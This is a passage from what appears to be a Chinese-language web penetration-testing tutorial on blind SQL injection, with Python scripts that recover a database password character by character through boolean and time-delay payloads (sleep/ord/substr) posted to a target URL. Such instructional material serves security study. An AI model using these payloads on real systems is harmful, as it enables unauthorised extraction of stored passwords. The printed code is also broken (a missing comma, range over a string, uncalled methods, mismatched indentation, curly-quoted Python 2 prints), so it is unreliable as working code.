 如果`yes`值不存在，我们将`asciivalue`添加到移动到下一个可能的字符位置并通过：

```py
else:
      asciivalue = asciivalue + 1
      pass
```

最后，我们为每个循环重置`asciivalue`，然后当循环达到字符串的长度时，我们完成，打印整个恢复的字符串：

```py
asciivalue = 1
print “Recovered String: “+ ''.join(answer)
```

## 还有更多...

潜在地，这个脚本可以被修改以处理遍历表并通过更好设计的 SQL 注入字符串恢复多个值。最终，这提供了一个基础，就像后来的盲目 SQL 注入脚本一样，用于开发更复杂和令人印象深刻的脚本来处理具有挑战性的任务。查看*利用盲目 SQL 注入*脚本，了解这些概念的高级实现。

# 利用盲目 SQL 注入

有时候，生活会给你柠檬；盲目的 SQL 注入点就是其中之一。当你相当确定已经找到了 SQL 注入漏洞，但没有错误，也无法让它返回你的数据时，在这些情况下，你可以在 SQL 中使用时间命令来导致页面暂停返回响应，然后利用这个时间来判断数据库及其数据。

我们将创建一个脚本，向服务器发出请求，并根据请求的字符返回不同时间的响应。然后它将读取这些时间并重新组装字符串。

## 如何做…

脚本如下：

```py
import requests

times = []
print “Kicking off the attempt”
cookies = {'cookie name': 'Cookie value'}

payload = {'injection': '\'or sleep char_length(password);#', 'Submit': 'submit'}
req = requests.post('<target url>' data=payload, cookies=cookies)
firstresponsetime = str(req.elapsed.total_seconds)

for x in range(1, firstresponsetime):
  payload = {'injection': '\'or sleep(ord(substr(password, '+str(x)+', 1)));#', 'Submit': 'submit'}
  req = requests.post('<target url>', data=payload, cookies=cookies)
  responsetime = req.elapsed.total_seconds
  a = chr(responsetime)
    times.append(a)
    answer = ''.join(times)
print “Recovered String: “+ answer
```

## 它是如何工作的…

